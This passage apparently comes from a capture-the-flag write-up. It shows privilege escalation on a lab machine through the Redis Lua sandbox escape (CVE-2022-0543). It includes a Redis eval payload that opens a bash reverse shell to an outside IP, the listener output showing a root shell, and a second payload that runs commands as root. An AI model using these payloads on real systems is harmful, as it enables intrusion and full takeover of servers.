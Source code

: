 It works:

```

dan_smith@shared:~$ ls /dev/shm/
redis_poc

```

#### Shell

I can use this to get a reverse shell:

```
127.0.0.1:6379> eval 'local os_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_os"); local os = os_l(); os.execute("bash -c \'bash -i >& /dev/tcp/10.10.14.6/443 0>&1\'"); return 0' 0

```

It hangs, but at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.172 36284
bash: cannot set terminal process group (2058): Inappropriate ioctl for device
bash: no job control in this shell
root@shared:/var/lib/redis#

```

This shell seems to die every minute, so I’ll have to work quickly to get the flag:

```

root@shared:~# cat root.txt
55e4f416************************

```

#### Script

Googling for “cve-2022-0543 site:github.com” returns a [POC by aodsec](https://github.com/aodsec/CVE-2022-0543/blob/main/CVE-2022-0543.py), which takes a slightly different approach to the loaded Lua, and manages to get output printed in the Redis terminal:

```
127.0.0.1:6379> eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
"uid=0(root) gid=0(root) groups=0(root)\n"

```

The script provides a shell-like experience. It will fail because there’s no auth in the script, but adding this line fixes it:

